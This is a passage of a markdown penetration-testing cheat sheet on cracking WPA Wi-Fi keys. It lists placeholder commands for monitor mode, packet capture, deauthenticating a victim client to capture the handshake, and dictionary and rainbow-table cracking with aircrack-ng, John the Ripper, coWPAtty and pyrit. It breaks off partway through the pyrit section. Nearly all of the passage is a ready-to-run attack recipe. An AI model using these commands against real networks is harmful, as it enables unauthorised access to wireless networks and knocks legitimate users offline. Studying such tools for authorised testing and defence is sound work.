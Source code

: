 2. capture packets and save it to a file
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

#### 4.2.2 deauth attack for 4WH
- deauh a client to capture 4WH while it reconnects
`> aireplay-ng -0 1 -a <AP MAC> -c <VicClient MAC> <mon device>`

#### 4.2.3 cracking WPA with JtR wordlist and aircrack
1. using JtR word mangling rule to create better wordlist
`> ./john --wordlist=<wordlist> --rules --stdout`
make sure to set right rule in john.conf (e.g. adding 2 digits at the end of each word --> $[0-9]$[0-9])

2. combine word JtR mangling with aircrack-ng
`> ./john --wordlist=<wordlist> --rules --stdout | aircrack-ng -0 -e <AP name> -w - <4WH capture file>`

### 4.3 cracking WPA with coWPAtty
Useful tool for dictionary and rainbowtable attacks to recover WPA keys.

#### 4.3.1 preparation

1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. capture packets and save it to a file
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

3. deauh attack against a client to capture 4WH while it reconnects
`> aireplay-ng -0 1 -a <AP MAC> -c <VicClient MAC> <mon device>`

#### 4.3.2 cracking WPA with coWPAtty
- crack with dictionary attack (-2 for non strict mode)
`> cowpatty -r <4WH capture file> -f <wordlist> -2 -s <AP name>`

- generating the rainbow tables for a ESSID
`> genpmk -f <wordlist> -d <rainbow file> -s <ESSID>`

- crack with precomputed rainbow tables
`> cowpatty -r <4WH capture file> -d <rainbow file> -2 -s <AP name>`

### 4.4 cracking WPA with pyrit
Uses precomputed keytables by using the GPU instead of the CPU. Dictionary attack is also possible.
It read compressed or uncompressed rar capture files or directly from an interface, so no external 4WH capture
e.g. with airodump-ng is necessary.

#### 4.4.1 preparation
1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. capture packets and save it to a file
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`
